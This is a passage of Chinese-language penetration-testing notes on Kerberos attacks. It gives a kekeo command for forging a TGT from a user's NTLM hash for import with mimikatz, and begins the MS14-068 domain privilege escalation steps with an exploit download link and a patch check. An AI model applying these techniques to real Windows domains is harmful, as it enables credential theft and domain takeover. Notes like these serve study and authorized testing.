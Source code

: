     ![image-20240624175254223](Kerberos/image-20240624175254223.png)

    > https://www.codercto.com/a/90852.html

6. kekeo 制作票据命令：
    ```bash
    # 不用指定具体服务
    tgt::ask /user:用户名 /domain:域名 /ntlm:NTLM Hash
    ```

    制作过后再用 mimikatz 导入即可（感觉也挺麻烦）。

#### 4.3.2 域提权 - MS14-068

1. 金票传递之前需要有域管理的权限，可以用 MS14-068 来提权。下载地址：

    > https://github.com/abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe

2. 补丁查看：
    ```cmd
    systeminfo | find "3011780"
    ```

    返回为空表示没打补丁。

3. PS：提权是有时效性的，而且需要 MS14-068 后生成的凭证才有用。
    需要工具 mimikatz 和 MS14-068 工具：

